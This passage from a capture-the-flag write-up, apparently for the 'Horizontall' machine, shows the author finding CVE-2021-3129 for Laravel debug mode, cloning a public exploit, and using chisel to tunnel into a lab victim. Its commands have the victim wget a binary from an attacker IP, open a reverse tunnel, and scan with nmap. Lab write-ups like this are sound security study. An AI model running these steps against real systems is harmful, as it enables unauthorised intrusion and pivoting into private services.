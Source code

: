 If I search the internet for vulnerabilities in Larabel (**laravel 8 php 7.4 vulnerabilities**), I find information about a **CVE** on the **exploit-db** page ([Laravel 8.4.2 debug mode - Remote code execution](https://www.exploit-db.com/exploits/49424){:target="_blank"}). Then I look for some **POC** on **Github** (**laravel cve 2021-3129 exploit github**) that I can use and I find several projects, I choose the first one to clone in the project on my machine (**[nth347/CVE-2021-3129_exploit](https://github.com/nth347/CVE-2021-3129_exploit){:target="_blank"}**), once done I test that it works correctly. I will use **[chisel](https://github.com/jpillora/chisel){:target="_blank"}** to create a tunnel to the machine, this way I will access port **8000** of the victim machine from my port **8000** to exploit it.

```bash
git clone https://github.com/nth347/CVE-2021-3129_exploit
python3 exploit.py                      # :)

git clone https://github.com/jpillora/chisel
go build -ldflags "-s -w" .

apt install upx-ucl
upx chisel
du -hc chisel                           # --> 3.0M        :)
chmod +x chisel


python -m http.server 80

# Victim Machine
cd /tmp
wget http://10.10.14.29/chisel
chmod +x chisel

# Attacking Machine
./chisel server --reverse -p 1234

# Victim Machine
./chisel client 10.10.14.29:1234 R:9000:127.0.0.1:8000

# Attacking Machine
lsof -i:9000                                    # :)
nmap -p8000 --open -T5 -v -n 127.0.0.1
#    --> 8000/tcp open  http-alt                :)
```

<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_39.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
